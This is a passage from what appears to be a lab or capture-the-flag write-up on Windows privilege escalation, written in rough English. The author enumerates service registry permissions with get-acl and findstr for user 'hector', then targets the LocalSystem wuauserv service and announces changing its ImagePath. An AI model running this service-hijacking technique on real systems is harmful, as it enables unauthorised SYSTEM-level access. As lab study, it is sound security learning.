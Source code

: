 Running this comnans give me a ist of services runnning on the machine. For filter the services that **hector** can change I run the following command:

```powershell
get-acl HKLM:\System\CurrentControlSet\services\* | Format-List * | findstr /i "hector Users Path Everyone"
```

This is give us a  gyge list of services that **hector** can change. I will focues in **wuauserv** service:

```powershell
PS C:\Users\Hector\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline> get-ItemProperty HKLM:\System\CurrentControlSet\Services\wuauserv


DependOnService     : {rpcss}
Description         : @%systemroot%\system32\wuaueng.dll,-106
DisplayName         : @%systemroot%\system32\wuaueng.dll,-105
ErrorControl        : 1
FailureActions      : {128, 81, 1, 0...}
ImagePath           : C:\Windows\system32\svchost.exe -k netsvcs -p
ObjectName          : LocalSystem
RequiredPrivileges  : {SeAuditPrivilege, SeCreateGlobalPrivilege, SeCreatePageFilePrivilege, SeTcbPrivilege...}
ServiceSidType      : 1
Start               : 3
SvcMemHardLimitInMB : 246
SvcMemMidLimitInMB  : 167
SvcMemSoftLimitInMB : 88
Type                : 32
PSPath              : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\wuauserv
PSParentPath        : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services
PSChildName         : wuauserv
PSDrive             : HKLM
PSProvider          : Microsoft.PowerShell.Core\Registry

PS C:\Users\Hector\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline>
```

Enter in the register i will try to change the **ImagePath** of service:

```powershell
PS C:\Users\Hector\Documents> cd HKLM:
PS HKLM:\>
PS HKLM:\> cd SYSTEM
PS HKLM:\SYSTEM> cd CurrentControlSet
PS HKLM:\SYSTEM\CurrentControlSet> cd Services
PS HKLM:\SYSTEM\CurrentControlSet\Services> get-item wuauserv


    Hive: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services


Name                           Property
----                           --------
wuauserv                       DependOnService     : {rpcss}
                               Description         : @%systemroot%\system32\wuaueng.dll,-106
                               DisplayName         : @%systemroot%\system32\wuaueng.dll,-105
                               ErrorControl        : 1
                               FailureActions      : {128, 81, 1, 0...}
                               ImagePath           : C:\Windows\system32\svchost.exe -k netsvcs -p
                               ObjectName          : LocalSystem
                               RequiredPrivileges  : {SeAuditPrivilege, SeCreateGlobalPrivilege,
                               SeCreatePageFilePrivilege, SeTcbPrivilege...}
```